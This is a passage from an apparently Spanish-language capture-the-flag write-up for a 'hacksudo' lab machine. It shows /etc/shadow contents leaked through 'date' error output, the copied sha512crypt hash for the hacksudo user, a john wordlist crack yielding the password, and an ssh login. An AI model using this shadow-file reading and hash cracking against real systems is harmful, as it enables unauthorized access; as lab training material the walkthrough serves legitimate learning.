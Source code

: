 ```
date: invalid date 'usbmux:*:18714:0:99999:7:::'
date: invalid date 'rtkit:*:18714:0:99999:7:::'
date: invalid date 'pulse:*:18714:0:99999:7:::'
date: invalid date 'speech-dispatcher:!:18714:0:99999:7:::'
date: invalid date 'avahi:*:18714:0:99999:7:::'
date: invalid date 'saned:*:18714:0:99999:7:::'
date: invalid date 'colord:*:18714:0:99999:7:::'
date: invalid date 'geoclue:*:18714:0:99999:7:::'
date: invalid date 'hplip:*:18714:0:99999:7:::'
date: invalid date 'Debian-gdm:*:18714:0:99999:7:::'
date: invalid date 'hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1:18721:0:99999:7:::'
date: invalid date 'systemd-coredump:!!:18714::::::'
date: invalid date 'sshd:*:18714:0:99999:7:::'
date: invalid date 'mysql:!:18720:0:99999:7:::'
```

Veremos el `shadow` al completo, a parte intentaremos crackear la contraseña del usuario `hacksudo`...

```shell
nano hash

#Dentro del nano
hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
aliens           (hacksudo)     
1g 0:00:00:01 DONE (2024-06-21 08:45) 0.6211g/s 4770p/s 4770c/s 4770C/s droopy..thesimpsons
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Por lo que vemos la contraseña de `hacksudo` es `aliens`...

```
User = hacksudo
Password = aliens
```

Nos conectaremos por `ssh`...

```shell
ssh hacksudo@<IP>
```
